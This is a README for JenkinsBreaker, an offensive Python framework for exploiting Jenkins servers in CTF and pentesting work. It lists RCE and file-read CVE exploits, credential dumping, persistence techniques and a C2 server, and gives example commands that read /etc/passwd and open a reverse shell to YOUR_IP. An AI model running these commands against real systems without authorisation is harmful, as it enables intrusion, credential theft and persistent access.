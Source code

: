 # JenkinsBreaker 🏴‍☠️  
An Advanced Python Offensive Security Framework for Jenkins Exploitation in CTF and Pentesting Scenarios  

---

## 🚀 Features  

- ✅ **Automated Enumeration & Exploitation** (`--auto` mode)  
- ✅ **Exploit Critical CVEs**:  
  - CVE-2019-1003029 / CVE-2019-1003030 – *Groovy Script RCE*  
  - CVE-2024-23897 – *Arbitrary File Read via CLI*  
  - CVE-2025-31720 / CVE-2025-31721 / CVE-2025-31722 – *Custom & Upcoming CVEs Included*  
- ✅ **Reverse Shell Payload Generation** (Bash, Python, Groovy, PowerShell, Metasploit Compatible)  
- ✅ **AWS Credential Dumping & Secrets Scanning**  
- ✅ **CSRF Crumb Handling & Automation**  
- ✅ **JWT Token Brute-Forcing and Analysis**  
- ✅ **Post-Exploitation Recon Automation** (Auto Upload & Execute linPEAS, pspy)  
- ✅ **Report Generation**: JSON, Markdown, PDF (via WeasyPrint)  
- ✅ **Built-in C2 Server (FastAPI) & Interactive WebSocket Shell (not functional with this release)**  
- ✅ **Persistence Techniques** (Cron Jobs, Jenkins Pipelines)  
- ✅ **Modular Exploit Loading** (`exploits/` Directory)  

---

## 📅 Coming Soon (Planned Features)  

- 🖥️ **Full Visual Interface** (TUI & Web UI) using *textual* and *fastapi*  
- 🎯 **Enhanced Plugin Fuzzer** with *ML-Based Misconfiguration Detection*  
- 📊 **Interactive Dashboards** for Exploit Results and Reporting  

---

## 📦 Installation  

```bash
git clone https://github.com/ridpath/heaplessNights.git
cd heaplessNights/JenkinsBreaker
python3 JenkinsBreaker.py --help  # Auto-creates virtualenv and installs dependencies
```
```bash
##⚔️ Example Usage
Automatic Enumeration & Exploitation:
python3 JenkinsBreaker.py --url http://TARGET_IP:8080 --auto --lhost YOUR_IP --lport 4444

Run Specific CVE Exploit:
python3 JenkinsBreaker.py --url http://TARGET_IP:8080 --exploit-cve --target-file /etc/passwd

Generate a Reverse Shell:
python3 JenkinsBreaker.py --generate-shell bash --lhost YOUR_IP --lport 4444

List All Available Commands:
python3 JenkinsBreaker.py --help-commands
```
## 📖 Note
This tool is under active development. A full-fledged UI will soon make managing exploits and post-exploitation workflows more intuitive. Stay tuned for upcoming releases!





